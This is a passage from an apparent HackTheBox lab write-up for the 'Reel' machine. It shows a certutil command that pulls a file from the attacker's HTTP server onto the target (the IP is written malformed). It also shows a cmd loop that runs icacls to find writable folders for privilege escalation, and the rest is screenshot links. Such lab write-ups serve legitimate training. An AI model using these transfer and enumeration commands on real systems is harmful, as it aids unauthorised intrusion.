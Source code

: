 ![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-41.png)

Let's trasnfer it to the target machine:

`certutil.exe -urlcache -f -split http://10.10.1.4.36:8000/icacls.txt`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-42.png)

Below command will use a for loop to run icacls against each line of the icacls.txt file. We also filtered our results to show us only the folders we have write permissions on.

```powershell
for /F %A in (C:\Windows\Temp\icacls.txt) do ( cmd.exe /c icacls "%~A" 2>nul | findstr /i "(F) (M) (W) (R,W) (RX,WD) :\" | findstr /i ":\\ everyone authenticated users todos %username%" && echo. ) 
```

Following paths were identified to be writeable:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-45.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-46.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-47.png)
